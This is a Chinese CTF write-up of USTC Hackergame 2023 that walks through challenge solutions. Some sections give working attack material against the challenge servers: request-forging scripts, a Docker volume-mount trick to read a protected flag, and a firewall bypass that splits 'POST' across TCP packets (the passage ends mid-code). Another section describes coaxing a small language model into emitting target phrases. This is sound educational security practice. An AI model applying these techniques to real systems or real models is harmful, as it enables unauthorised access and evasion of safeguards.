> **本 Writeup 的更新、更详细版本发布于 [MiaoTony 的博客](https://miaotony.xyz/2023/11/05/CTF_2023Hackergame/?utm_source=github_hackergame2023)，之后若有修正请以博客内容为准，仓库内的版本应该不再维护了。**
>
> 欢迎来 [喵喵的博客](https://miaotony.xyz/?utm_source=github_hackergame2023) 转转喵~

# CTF | 2023 USTC Hackergame WriteUp


## 引言

今年这段时间事情挺多，没啥时间来看题，特别是周末还花了点时间，[和 SU 的队友打 XCTF 分站赛 ACTF 2023 去了](https://su-team.cn/passages/2023-10-28-ACTF/)，最后打了个第二，队友好强！！！

hackergame 就只有几个晚上的时间简单瞄了下，但是怎么做着做着一晚上就过去了，特别是最后一晚上看着题目怎么就天亮了，顶不住顶不住，想睡大觉，呼呼~

这篇 wp 随便来记录一下解题过程，当然还有不少做题过程中看到的有意思的东西。

**希望大家看了也能有所收获！**

> 顺便，喵喵往年的 Hackergame Writeup 回顾：
>
> [CTF | 2022 USTC Hackergame WriteUp 0x01](https://miaotony.xyz/2022/10/30/CTF_2022Hackergame_0x01/)
>
> [CTF | 2021 USTC Hackergame WriteUp](https://miaotony.xyz/2021/11/03/CTF_2021Hackergame/)
>
> [CTF | 2020 USTC Hackergame WriteUp](https://miaotony.xyz/2020/11/08/CTF_2020Hackergame/)


## Hackergame 启动

同样的前端 UI 缝缝补补继续用捏




发现是前端校验相似度然后发请求



直接 `/?similarity=100` 完事



最下面的是陆队名言！


## 猫咪小测


*~~（什么Z佬喵~~*


> 1. 想要借阅世界图书出版公司出版的《A Classical Introduction To Modern Number Theory 2nd ed.》，应当前往中国科学技术大学西区图书馆的哪一层？**（30 分）**
>
> 提示：是一个非负整数。

**12**

https://lib.ustc.edu.cn/%e6%9c%ac%e9%a6%86%e6%a6%82%e5%86%b5/%e9%a6%86%e8%97%8f%e5%88%86%e5%b8%83/

馆藏分布


> 2. 今年 arXiv 网站的天体物理版块上有人发表了一篇关于「可观测宇宙中的鸡的密度上限」的论文，请问论文中作者计算出的鸡密度函数的上限为 10 的多少次方每立方秒差距？**（30 分）**
>
> 提示：是一个非负整数。

**23**

https://arxiv.org/abs/2303.17626

> We find the most restrictive upper limit from the domains considered to be 10^23 pc^−3, which ruffles the feathers of long-standing astrophysics theory.     

甚至 b乎 上还有一篇回答讲到了这篇论文：[你见过哪些极品论文？](https://www.zhihu.com/question/20337132/answer/3023506910)



https://www.zhihu.com/question/20337132/answer/3023506910

> 3. 为了支持 TCP BBR 拥塞控制算法，在**编译** Linux 内核时应该配置好哪一条内核选项？**（20 分）**
>
> 提示：输入格式为 CONFIG_XXXXX，如 CONFIG_SCHED_SMT。



**`TCP_CONG_BBR`**

> 4. 🥒🥒🥒：「我……从没觉得写类型标注有意思过」。在一篇论文中，作者给出了能够让 Python 的类型检查器 ~~MyPY~~ mypy 陷入死循环的代码，并证明 Python 的类型检查和停机问题一样困难。请问这篇论文发表在今年的哪个学术会议上？**（20 分）**
>
> 提示：会议的大写英文简称，比如 ISCA、CCS、ICML。

**ECOOP**

google `paper mypy infinite loop`



搜到论文 Python Type Hints Are Turing Complete，正好还是今年的

https://drops.dagstuhl.de/opus/volltexte/2023/18237/pdf/LIPIcs-ECOOP-2023-44.pdf



`flag{WE1C0mE-To-aTT3nd-th3-n3k0-eX4M-2oz3}`

`flag{R3AL-maS7eR-Of-7HE-N3K0-EXaM-iN-u$7C}`


## 更深更暗

前端根据 token 生成的 flag，直接执行就好




## 赛博井字棋

发现怎么玩都玩不过 AI，但是突然发现直接发请求过去，把棋子下到已经占用的位置上是可以把对面给吃了的，哈哈




## 奶奶的睡前 flag 故事

那不就是今年3月份 Pixel 爆出来那个选择区域截图的时候没把原来图片多余 chunk 给删除掉的 bug 嘛

> Google Pixel 内置截图编辑器存在严重的隐私泄露bug。
> 当编辑截图时，编辑器仅仅覆盖原文件相应的区域而不是全部重写，另外由于裁剪过的图片一般小于原图片，于是原图片的部分数据还存留在文件里。
>
> https://twitter.com/itssimontime/status/1636857478263750656

https://github.com/infobyte/CVE-2023-21036

这是个检测和消毒去除多余 chunk 的工具，不过顺便找到了个在线还原的工具

If you want to try to recover the original screenshots use https://acropalypse.app

设备选 Pixel 7 可以恢复




`flag{sh1nj1ru_k0k0r0_4nata_m4h0}`


## 组委会模拟器


看起来会先 POST http://202.38.93.111:10021/api/getMessages 这个接口然后拿到消息以及对应的延迟



删除消息的话 

```http
POST /api/deleteMessage HTTP/1.1
Host: 202.38.93.111:10021
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Content-Type: application/json
Content-Length: 10
Origin: http://202.38.93.111:10021
Referer: http://202.38.93.111:10021/
Cookie: ...

{"id":345}
```

最后调用 

POST http://202.38.93.111:10021/api/getflag

来拿 flag

写个脚本一把梭

```python
import requests
import re
import time


cookies = {
    'session': 'ey...'
}

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0',
    'Accept': 'application/json, text/plain, */*',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    # 'Accept-Encoding': 'gzip, deflate',
    'Origin': 'http://202.38.93.111:10021',
    'DNT': '1',
    'Connection': 'keep-alive',
    'Referer': 'http://202.38.93.111:10021/',
    'X-Forwarded-For': '1.0.0.1',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache'
}


def deleteMsg(id: int):
    json_data = {
        'id': id,
    }
    response = requests.post(
        'http://202.38.93.111:10021/api/deleteMessage',
        cookies=cookies,
        headers=headers,
        json=json_data,
        verify=False,
    )
    print(response.text)


response = requests.post(
    'http://202.38.93.111:10021/api/getMessages', cookies=cookies, headers=headers)
msgs = response.json()['messages']

flag = re.compile(r"hack\[[a-z]+\]", re.M)


time_begin = time.time()

for k, msg in enumerate(msgs):
    text = msg['text']
    delay = msg['delay']
    if flag.findall(text):
        print(k, delay, text)
        time_gone = time.time() - time_begin
        time_delay = delay - time_gone
        if time_delay >= 0:
            time.sleep(time_delay)
        deleteMsg(k)

response = requests.post(
    'http://202.38.93.111:10021/api/getflag', cookies=cookies, headers=headers)

print(response.text)
```




## 虫

经典 SSTV



`flag{SSssTV_y0u_W4NNa_HaV3_4_trY}`


## JSON ⊂ YAML?

### JSON ⊄ YAML 1.1 

[What valid JSON files are not valid YAML 1.1 files?](https://stackoverflow.com/questions/21584985/what-valid-json-files-are-not-valid-yaml-1-1-files)

```
12345e999
```



或者 

```
{"a": 1e2}
```

YAML 当成是字符串了


### JSON ⊄ YAML 1.2

还是上面那个链接里有一句 

> YAML 1.2 is (with one [minor caveat](http://yaml.org/spec/1.2/spec.html#id2759572) regarding duplicate keys) a superset of JSON, so any valid JSON file is also a valid YAML file.

也就是

> JSON's [RFC4627](http://www.ietf.org/rfc/rfc4627.txt)        requires that [mappings](http://yaml.org/spec/1.2-old/spec.html#mapping//) [keys](http://yaml.org/spec/1.2-old/spec.html#key//) merely “SHOULD” be [unique](http://yaml.org/spec/1.2-old/spec.html#equality//), while YAML insists they        “MUST” be. Technically, YAML therefore complies with the        JSON spec, choosing to treat duplicates as an error. In practice, since        JSON is silent on the semantics of such duplicates, the only portable        JSON files are those with unique keys, which are therefore valid YAML        files.      

那我构造两个相同 key 的试试呗

```
{"a":123451243, "a":"afgafds"}
```



JSON 和 YAML 1.1 只会取最后一个值，而 YAML 1.2 因为重复的 key 而报错了。

```python
# ...
  File "D:\Programs\Anaconda\lib\site-packages\ruamel\yaml\constructor.py", line 276, in check_mapping_key
    raise DuplicateKeyError(*args)
ruamel.yaml.constructor.DuplicateKeyError: while constructing a mapping
  in "<unicode string>", line 1, column 1:
    {"a":123451243, "a":"afgafds"}
    ^ (line: 1)
found duplicate key "a" with value "afgafds" (original value: "123451243")
  in "<unicode string>", line 1, column 17:
    {"a":123451243, "a":"afgafds"}
                    ^ (line: 1)
```



BTW，题目中用的版本是 

```bash
pip install PyYAML==6.0.1 ruamel.yaml==0.17.40 ruamel.yaml.clib==0.2.8
```

而 ruamel.yaml 在 0.18 之后已经不让使用 safe_load 方法了，当前最新的 0.18.3 版本直接把相关的方法移除了。




## Git? Git!

直接 `git reflog` 看看干了啥，然后 `git diff` 拿到 flag



`flag{TheRe5_@lwAy5_a_R3GreT_pi1l_1n_G1t}`


## HTTP 集邮册


### 5 种状态码

正常访问存在的路径 -> 200

请求一个不存在的文件 404

不允许方法 OPTIONS -> 405 Not Allowed

```http
OPTIONS /robots.txt HTTP/1.1\r\n
Host: example.com\r\n\r\n
```

随便构造个恶意格式的请求 -> 400

构造一个超长 URI -> 414




### 12 种状态码

继续试试其他的请求

分段请求 Range -> 206 Partial Content

```
GET / HTTP/1.1\r\n
Host: example.com\r\n
Range: bytes=0-4\r\n\r\n
```

HTTP/2 -> 505 HTTP Version Not Supported



超过范围的 Range -> 416 Requested Range Not Satisfiable

```http
GET / HTTP/1.1\r\n
Host: example.com\r\n
Range: bytes=6599\r\n\r\n
```



501 Not Implemented

```http
GET / HTTP/1.1\r\n
Host: example.com\r\n
Transfer-Encoding: chunked\r\n\r\n
```

304 Not Modified

```http
GET /50x.html HTTP/1.1\r\n
Host: example.com\r\n
Connection: keep-alive\r\n
If-Modified-Since: Tue, 15 Aug 2023 17:03:04 GMT\r\n\r\n
```

或者用 `If-None-Match: "64dbafc8-1f1"` 类似这样也行



构造一个 `Content-Length` 大于 nginx 设定的最大值的 -> 413 Request Entity Too Large

```http
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Connection: close\r\n
Content-Length: 9999999999999999\r\n\r\n

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaadsfjkldsjfaklfjasdfklgj\r\n\r\n
```



Expect [Large message body](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Expect#large_message_body) -> 100



但是这里如果用 PUT 会405，于是还是改用 GET 了，发现其实也是会校验 Expect 字段的

>   The server checks the headers and generates the response.  The server sends [`100`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/100) (Continue), which instructs the client to send the message body.

```http
GET / HTTP/1.1\r\n
Host: origin.example.com\r\n
Content-Type: video/h264\r\n
Content-Length: 120987\r\n
Expect: 100-continue\r\n\r\n
```

[RFC 7231 Expect](https://tools.ietf.org/html/rfc7231#section-5.1.1)



但是 nginx 好像没有实现 417 (Expectation Failed)？

[Nginx doesn't support HTTP status code 417 (Expectation Failed)](https://trac.nginx.org/nginx/ticket/2062)

==> [100, 200, 206, 304, 400, 404, 405, 413, 414, 416, 501, 505]

啊，终于集齐了，要把 [MDN HTTP 响应状态码](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Status) 文档给翻烂了（甚至 ~~差点~~ 已经开始翻阅 [nginx 源码](https://trac.nginx.org/nginx/browser?order=name) 了。。

`flag{I think that when many such status codes are accumulated def0ee5cf2 it becomes a lifetime}`


### 没有状态……哈？

对应的容器为**默认配置下的 `nginx:1.25.2-bookworm`**

配置为

```nginx
user  nginx;
worker_processes  auto;

error_log  /var/log/nginx/error.log notice;
pid        /var/run/nginx.pid;


events {
    worker_connections  1024;
}


http {
    include       /etc/nginx/mime.types;
    default_type  application/octet-stream;

    log_format  main  '$remote_addr - $remote_user [$time_local] "$request" '
                      '$status $body_bytes_sent "$http_referer" '
                      '"$http_user_agent" "$http_x_forwarded_for"';

    access_log  /var/log/nginx/access.log  main;

    sendfile        on;
    #tcp_nopush     on;

    keepalive_timeout  65;

    #gzip  on;

    include /etc/nginx/conf.d/*.conf;
}
```

gzip 是关闭的，看来不能拿来整活了。

随手试了一下，**发送不完整或格式错误的请求**，这样就能出了

```http
GET /HTTP/1.1\r\n
Host: yourserver.com\r\n\r\n
```





`flag{great backward compatibility of nginx, R1ght?}`

看起来是后向兼容的设计？没响应头部的数据只有 body 的了。

查了下，其实就是 **HTTP/0.9** 的规范了

那确实直接 `GET /1\r\n\r\n` 就行了，哈哈



See also: [MDN: HTTP 的发展](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Basics_of_HTTP/Evolution_of_HTTP)


## Docker for Everyone

经典日机器/提权/容器逃逸的方法了，哈哈

```bash
alpine:~$ docker run -v /flag:/flag alpine:latest cat /flag
flag{u5e_r00t1ess_conta1ner_8ed24f192c_plz!}
```




## 旅行照片 3.0


### 题目 1-2 神秘奖牌

> 1、你还记得与学长见面这天是哪一天吗？（格式：yyyy-mm-dd）
>
> 2、在学校该展厅展示的所有同种金色奖牌的得主中，出生最晚者获奖时所在的研究所缩写是什么？ 

今年暑假，日本


[STATPHYS28](https://statphys28.org/) 


学长那天晚上将继续他的学术之旅，应该就这其中的一天，很可能是倒数第二天

**2023-08-10**

看起来这是物理学和化学奖的奖章

M. KOSHIBA 小柴昌俊 是中微子天文学的开创者之一，2002年他因“对天体物理学的开拓性贡献，特别是宇宙中微子探测方面”获得诺贝尔物理学奖。

那就是 东京大学

[日本人诺贝尔奖得主](https://zh.wikipedia.org/zh-sg/%E6%97%A5%E6%9C%AC%E4%BA%BA%E8%AB%BE%E8%B2%9D%E7%88%BE%E7%8D%8E%E5%BE%97%E4%B8%BB)


[梶田隆章](https://zh.wikipedia.org/zh-sg/%E6%A2%B6%E7%94%B0%E9%9A%86%E7%AB%A0)

东京大学宇宙射线研究所，https://www.icrr.u-tokyo.ac.jp/ 

The Institute for Cosmic Ray Research (ICRR)


**ICRR**




### 题目 3-4 这是什么活动？

> 3、帐篷中活动招募志愿者时用于的在线问卷的编号（以字母 S 开头后接数字）是多少？
>
> 4、学长购买自己的博物馆门票时，花费了多少日元？

28th International Conference on Statistical Physics, Statphys28

日本东京都文京区本乡 5 Chome−23−11 らーめん 一信


https://www.google.com/maps/@35.7093013,139.7603584,3a,77.5y,243.16h,95.42t/data=!3m7!1e1!3m5!1sj3OENOF4WAsKrHXENxxK5A!2e0!6shttps:%2F%2Fstreetviewpixels-pa.googleapis.com%2Fv1%2Fthumbnail%3Fpanoid%3Dj3OENOF4WAsKrHXENxxK5A%26cb_client%3Dmaps_sv.tactile.gps%26w%3D203%26h%3D100%26yaw%3D187.5142%26pitch%3D0%26thumbfov%3D100!7i16384!8i8192?entry=ttu


https://www.google.com/maps/@35.7172401,139.7750521,2a,75y,193.78h,96.67t/data=!3m9!1e1!3m7!1svDtWtjLzbEDvX8aWnFNaCQ!2e0!7i13312!8i6656!9m2!1b1!2i38?entry=ttu

东京上野啤酒节？

谷歌 东京上野公园 ボランティア人 （志愿者），时间限定到8月




[ボランティアSTAFF大募集！！第６回「全国梅酒まつりin東京2023」](https://umeshu-matsuri.jp/tokyo_staff/)

https://ws.formzu.net/dist/S495584522/


**S495584522**

https://www.klook.com/zh-CN/activity/93708-ueno-de-beer-festa/


东京国立博物馆

https://www.tnm.jp/modules/r_free_page/index.php?id=113#access_01



中小学生、高中生或未满18周岁以及满70周岁以上者，均可免费参观综合文化展（常设展），入馆时请出示附有年龄的证件（学生证、医保卡、驾驶证等）

**0** 日元

> 这里其实开始试了 500 怎么也不对，试了 1000 也不对，最后输了个 0，过了

```
flag{PluM_w1NE_1S_rEa1LY_EXpen5iVE_3e2ca01289}
```


### 题目 5-6 后会有期，学长！

> 5、学长当天晚上需要在哪栋标志性建筑物的附近集合呢？（请用简体中文回答，四个汉字）                                  
>
> 6、进站时，你在 JR 上野站中央检票口外看到「ボタン＆カフリンクス」活动正在销售动物周边商品，该活动张贴的粉色背景海报上是什么动物（记作 A，两个汉字）？  在出站处附近建筑的屋顶广告牌上，每小时都会顽皮出现的那只 3D 动物是什么品种？（记作 B，三个汉字）？（格式：A-B）


当晚是有个 Banqiet 宴会 https://statphys28.org/program/0810.html

gallery https://statphys28.org/photogallery.html#06

[STATPHYS28 Banquet on “Yakatabune” Boat](https://statphys28.org/banquet.html)

船上宴会，真有意思


集合点在 Yasuda Auditorium，~~安田礼堂~~ **安田讲堂**

*翻译错了搞了半天不对然后怀疑人生了，草*


**第6问**

搜索 JR 上野 ボタン＆カフリンクス

https://plaza.rakuten.co.jp/ayumilife/diary/202308110000/


**熊猫**

~~开往马里奥世界的电车 是说 日本环球影城马里奥园区？~~

搜了下图片，应该在涩谷


广告牌

https://www.gotokyo.org/jp/new-and-now/new-and-trending/221121/topics.html


新宿有三花猫，涩谷有秋田犬，可爱捏！

so 这题就是 **熊猫-秋田犬**

```
flag{Un7I1_W3_M337_A64iN_6oODByE_S3n1OR_7f0fa2a99e}
```


## 惜字如金 2.0

甚至比去年的还简单，根据 `flag` 对应的位置，人工推理一下就行了

恢复后的一种可能代码：

```python
#!/usr/bin/python3

# The size of the file may reduce after XZRJification

def check_equals(left, right):
    # check whether left == right or not
    if left != right: exit(1)

def get_code_dict():
    # prepare the code dict
    code_dict = []
    code_dict += ['nymeh1niwemflcir}echaete']
    code_dict += ['a3g7}kidgojernoetllsup?h']
    code_dict += ['ulw!ff5soadrhwnrsnstnoeq']
    code_dict += ['ctt{l-findiehaai{oveatas']
    code_dict += ['ty9kxborszstgguyd?!blm-p']
    check_equals(set(len(s) for s in code_dict), {24})
    return ''.join(code_dict)

def decrypt_data(input_codes):
    # retrieve the decrypted data
    code_dict = get_code_dict()
    output_chars = [code_dict[c] for c in input_codes]
    return ''.join(output_chars)

if __name__ == '__main__':
    # check some obvious things
    check_equals('create', 'cre' + 'ate')
    check_equals('referrer', 'refer' + 'rer')
    # check the flag
    flag = decrypt_data([53, 41, 85, 109, 75, 1, 33, 48, 77, 90,
                         17, 118, 36, 25, 13, 89, 90, 3, 63, 25,
                         31, 77, 27, 60, 3, 118, 24, 62, 54, 61,
                         25, 63, 77, 36, 5, 32, 60, 67, 113, 28])
    check_equals(flag.index('flag{'), 0)
    check_equals(flag.index('}'), len(flag) - 1)
    # print the flag
    print(flag)
```



`flag{you-ve-r3cover3d-7he-an5w3r-r1ght?}`

感觉特地选了那些影响不大的位了（


## 🪐 高频率星球

先装个 [asciinema](https://asciinema.org/) ，参考[使用文档](https://asciinema.org/docs/usage)，播放一下，然后干脆直接导出输出到文件

```bash
apt-get install asciinema
asciinema play asciinema_restore.rec
asciinema cat asciinema_restore.rec > output.txt
```

发现是 less 了个 `flag.js`

```bash
stage % sha256sum flag.js
6bbbb91b7adc465fa086ec4ad453bca38beef9967800bf24d046a27b8cb70042  flag.js
stage % less flag.js
stage % echo "Execute flag.js with nodejs to get the flag"
Execute flag.js with nodejs to get the flag
stage % node flag.js
stage %
```

然后把多余的控制字符给删了，比如下面这种



然后直接拿 NodeJS 执行好了

```bash
$ node flag.js
flag{y0u_cAn_ReSTorE_C0de_fr0m_asc11nema_3db2da106330xxxxxxxxxxxxxxxxxxxxxx}
```


## 🪐 流式星球

源码给的是读取 mp4 视频，随机去除拉平后的数组的最后的最多100个元素之后写入 bin 文件。

而视频的宽和高都不是10的倍数

```python
assert frame_width % 10 != 0
assert frame_height % 10 != 0
```

[wikipedia：List of common resolutions](https://en.wikipedia.org/wiki/List_of_common_resolutions)

把里面所有的都试了试，发现最后出来的帧数都不是整数

又想了想，这个最后 ravel 展平后的一维数组 buffer 的长度应该是且仅包含 3、frame_count、frame_height、frame_width 这四个因数

那就变成分解质因数的问题上了，直接写了个脚本去调用 http://factordb.com 好了

总字节数 total_bytes 的范围在 [135146688, 135146787]，取其中被3整除的，然后除3，依次去分解质因数

```python

ss = [135146688, 135146691, 135146694, 135146697, 135146700, 135146703, 135146706, 135146709, 135146712, 135146715, 135146718, 135146721, 135146724, 135146727, 135146730, 135146733, 135146736,
      135146739, 135146742, 135146745, 135146748, 135146751, 135146754, 135146757, 135146760, 135146763, 135146766, 135146769, 135146772, 135146775, 135146778, 135146781, 135146784, 135146787]

# len(ss)
# 34

ll = []
for i in ss:
    ll.append(i//3)
print(ll)
# [45048896, 45048897, 45048898, 45048899, 45048900, 45048901, 45048902, 45048903, 45048904, 45048905, 45048906, 45048907, 45048908, 45048909, 45048910, 45048911, 45048912, 45048913, 45048914, 45048915, 45048916, 45048917, 45048918, 45048919, 45048920, 45048921, 45048922, 45048923, 45048924, 45048925, 45048926, 45048927, 45048928, 45048929]


def get_factor(d):
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
        'DNT': '1',
        'Connection': 'keep-alive',
        'Referer': 'http://factordb.com/index.php',
        'Upgrade-Insecure-Requests': '1'
    }

    params = {
        'query': str(d),
    }

    response = requests.get('http://factordb.com/index.php',
                            params=params, headers=headers)
    r_text = response.text
    result = re.findall(
        r'</a></td>\s<td><a href=\"index.php\?id=(\d+)\">.+ = (.+)</a></td>', r_text)[0][1]
    # print(result)
    result = result.replace('</font>', '').replace('</a>',
                                                   '').replace('&middot;', 'x')
    result2 = re.sub(r'<a href=.+?>', '', result)
    result2 = re.sub(r'<font color=".+?">', '', result2)
    print(f'{d} ==> {result2}')


for i in ll:
    get_factor(i)
```

得到

```
45048896 ==> 2^6 x 409 x 1721
45048897 ==> 3^2 x 5005433
45048898 ==> 2 x 22524449
45048899 ==> 7 x 223 x 28859
45048900 ==> 2^2 x 3 x 5^2 x 13 x 11551
45048901 ==> 45048901
45048902 ==> 2 x 193 x 116707
45048903 ==> 3 x 15016301
45048904 ==> 2^3 x 23 x 103 x 2377
45048905 ==> 5 x 11^2 x 19 x 3919
45048906 ==> 2 x 3^3 x 7 x 37 x 3221
45048907 ==> 43 x 1047649
45048908 ==> 2^2 x 11262227
45048909 ==> 3 x 181 x 82963
45048910 ==> 2 x 5 x 4504891
45048911 ==> 45048911
45048912 ==> 2^4 x 3 x 17 x 55207
45048913 ==> 7 x 13 x 495043
45048914 ==> 2 x 41 x 83 x 6619
45048915 ==> 3^2 x 5 x 1001087
45048916 ==> 2^2 x 11 x 1023839
45048917 ==> 761 x 59197
45048918 ==> 2 x 3 x 167 x 44959
45048919 ==> 29 x 59 x 113 x 233
45048920 ==> 2^3 x 5 x 7 x 349 x 461
45048921 ==> 3 x 31 x 484397
45048922 ==> 2 x 211 x 106751
45048923 ==> 389 x 115807
45048924 ==> 2^2 x 3^2 x 19 x 67 x 983
45048925 ==> 5^2 x 241 x 7477
45048926 ==> 2 x 13 x 107 x 16193
45048927 ==> 3 x 7 x 11 x 23 x 61 x 139
45048928 ==> 2^5 x 347 x 4057
45048929 ==> 17 x 101 x 26237
```

需要包含至少3个因数，而且是比较合理的，宽高比比较正常的

然后试了老半天，不对的话像这样


脑阔疼，发现还是太多了，而且有巨大多种可能的组合，总不能全部都试一遍吧（虽然也不是不行。。

还是先直接看第一帧吧

手工试了下 640 * 180，隐约能看到是个 B站的视频，up 主是 [MyGO_official](https://space.bilibili.com/489742387)


手工爆破宽高，代码在后面

1281*760 的时候正好宽度是3个画面，高度也是3个



那宽度就是 1281/3 = 427，然后再爆破高度，得到大概手动尝试发现是 761 附近

然后不管了，直接填充空白帧之后导出视频看看完事了，摆烂（

```python
import cv2
import numpy as np

def restore_video(input_file, output_file, frame_width, frame_height):
    # 从二进制文件读取数据
    buffer = np.fromfile(input_file, dtype=np.uint8)
    
    # 将数据重新变形成视频帧
    frame_count = len(buffer) // (frame_width * frame_height * 3) + 1
    left = frame_count * frame_width * frame_height * 3 - len(buffer)
    print(left)
    temp_buffer = np.pad(buffer, (0, left), 'constant', constant_values=0)
    temp_buffer = temp_buffer.reshape((frame_count, frame_height, frame_width, 3))

    # 创建一个VideoWriter来保存视频
    fourcc = cv2.VideoWriter_fourcc(*'XVID')  # 视频编解码器
    out = cv2.VideoWriter(output_file, fourcc, 30, (frame_width, frame_height))

    # 逐帧写入视频文件
    for i in range(frame_count):
        frame = temp_buffer[i]
        out.write(frame)

    # 释放资源
    out.release()


def display_first_frame(input_file, potential_resolutions):
    buffer = np.fromfile(input_file, dtype=np.uint8)
    # print(buffer.size)
    # 135146688
    for width, height in potential_resolutions:
        # for width_new in range(width - 50, width + 50):
        # for height_new in range(height, height + 50):
            # print(height_new)
            frame_size = width * height * 3
            frame_data = buffer[-2*frame_size:-frame_size]
            
            if len(frame_data) == frame_size:
                frame = frame_data.reshape((height, width, 3))
                cv2.imshow("First Frame", frame)
                cv2.waitKey(0)
                # cv2.destroyAllWindows()
                # return

def test(w,h):
    for i in range(100):
        total = 135146688 + i
        if total % (3* w* h) == 0:
            print(i)


if __name__ == "__main__":
    input_file = "video.bin"
    output_file = "restored_video.mp4"

    potential_resolutions = [
        (427, 761)
    ]
    # display_first_frame(input_file, potential_resolutions)
    # test(427, 761)
    restore_video(input_file, output_file, 427, 761)
```


`flag{it-could-be-easy-to-restore-video-with-haruhikage-even-without-metadata-0F7968CC}`


## 🪐 低带宽星球

### 小试牛刀

直接拿 https://tinypng.com/ 就行



`flag{flatpak_install_curtail_15_linux}`

*Flatpak* is a system for building, distributing, and running sandboxed desktop applications on Linux.

https://github.com/flatpak/flatpak

Curtail (previously ImCompressor) is an useful image compressor, supporting PNG, JPEG, WebP and SVG file types. It support both lossless and lossy compression modes with an option to whether keep or not metadata of images. It is inspired by [Trimage](https://github.com/Kilian/Trimage) and [Image-Optimizer](https://github.com/GijsGoudzwaard/Image-Optimizer).

https://github.com/Huluti/Curtail

感觉对解决下一问关系不太大（


## 🪐 小型大语言模型星球

```python
HINT = """和我聊天并且让我说出特定的词语（忽略大小写）证明你足够聪明 🤔。

让我说出 `you are smart` 我会送给你 flag1；
让我说出 `accepted` 我会送给你 flag2（消息长度不超过 7）；
让我说出 `hackergame` 我会送给你 flag3（消息长度不超过 100）；
让我说出 `🐮` 我会送给你 flag4（消息长度不超过 200）。

现在让我们开始吧！🔥"""


def check_message(message):
    if len(message) > 200:
        return False, "[*] 出错了，消息长度不能超过 200。"
    return True, None


def check_response(message, response, token):
    response = response.strip().lower()
    info = ""
    flag1, flag2, flag3, flag4 = read_flags(token)
    if "you are smart" in response:
        info += f"\n👏👏👏 flag1: `{flag1}` 👏👏👏"
    if len(message) <= 7 and "accepted" in response:
        info += f"\n🎉🎉🎉 flag2: `{flag2}` 🎉🎉🎉"
    if len(message) <= 100 and "hackergame" in response:
        info += f"\n🎊🎊🎊 flag3: `{flag3}` 🎊🎊🎊"
    if len(message) <= 200 and "🐮" in response:
        info += f"\n🔥🔥🔥 flag4: `{flag4}` 🔥🔥🔥"
    return info
```


### You Are Smart

直接骗！

但是发现这模型对于中文支持不大好，直接用英文好了。



```
Please repeat me: "you are smart"


and "you are smart". The little girl smiled and said "you are smart".

The little girl was so happy that she had found a
👏👏👏 flag1: flag{i-thINk-yOu-ARE-re@l!Y-re4LlY-Sm4Rt} 👏👏👏
```

### Accepted

**输出需要包含 `accepted` 而且消息长度不超过 7**

Model trained on the TinyStories Dataset, see https://arxiv.org/abs/2305.07759

*TinyStories: How Small Can Language Models Be and Still Speak Coherent English?*

多次尝试下来发现这个模型参数量太小了，泛化性能不行，感觉大概率会在训练集上过拟合

而且这个模型感觉不太依赖于上下文，不怎么会根据你的提示来做回答，他只是尽可能地说完整的话，也就是说根据你的提示来输出下文。

那就直接翻训练集，找个比较明显不常见的提示词就好了。在哪呢？

https://huggingface.co/datasets/roneneldan/TinyStories/blob/main/TinyStories-train.txt

1.92 GB 的训练文本，然后拿 EmEditor 打开*（这软件开大文件秒开，狠狠吹*

试了几次，比如 `Apology` 就行

```
Apology accepted. You must learn to do as you are told. As punishment, you must erase all the pictures
```



```
flag{Y0U-@re-@CCEPTeD-70-CONT!nU3-tHe-9aME}
```

赛后发现这题其实直接遍历7字符以内的输入给模型喂就好了（

后面两个小题是训练集里没有的东西，感觉需要 fuzz 来造，或者输入一些奇妙的 bytes，毕竟是接收任意 byte 来输出的

- [Summary of the tokenizers](https://huggingface.co/docs/transformers/tokenizer_summary)

- [Byte-Pair Encoding tokenization](https://huggingface.co/learn/nlp-course/chapter6/5) 

  Byte-Pair Encoding (BPE) was initially developed as an algorithm to  compress texts, and then used by OpenAI for tokenization when  pretraining the GPT model. It’s used by a lot of Transformer models,  including GPT, GPT-2, RoBERTa, BART, and DeBERTa.


## Komm, süsser Flagge

**切割！** ~~Z佬！~~

### 我的 POST

```bash
-A myTCP-1 -p tcp -m string --algo bm --string "POST" -j REJECT --reject-with tcp-reset
```

直接问 chatgpt

> 这是一个使用`iptables`的规则，用于检测和拦截TCP数据包中包含"POST"字符串的数据包。这条规则会使用Boyer-Moore搜索算法(`--algo bm`)来查找字符串，并当找到该字符串时拒绝该数据包，并发送一个TCP RST包(`--reject-with tcp-reset`)来中断连接。这里是规则的解读：
>
> - `-A myTCP-1`: 将此规则添加到名为"myTCP-1"的链中。
> - `-p tcp`: 仅匹配TCP协议的数据包。
> - `-m string`: 使用string模块来进行内容检测。
> - `--algo bm`: 使用Boyer-Moore搜索算法。
> - `--string "POST"`: 搜索"POST"这个字符串。
> - `-j REJECT`: 当匹配时，执行拒绝操作。
> - `--reject-with tcp-reset`: 使用TCP RST来拒绝。

明文匹配 "POST" 字符串，只需要将这个字符串切割到不同段 TCP 数据包里就好了。

使用Python的`socket`库，我们可以模拟将"POST"字符串分割到两个不同的TCP数据包中，然后打印服务器的响应。

```python
import socket

def send_split_post_request(host, port):
    # 创建一个TCP/IP套接字
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    # 连接到服务器
    s.connect((host, port))
    
    # 第一部分数据，只包含"POS"
    request_part1 = "POS"
    s.sendall(request_part1.encode())
    
    # 第二部分数据，包含"T"和一个简单的HTTP请求的其余部分
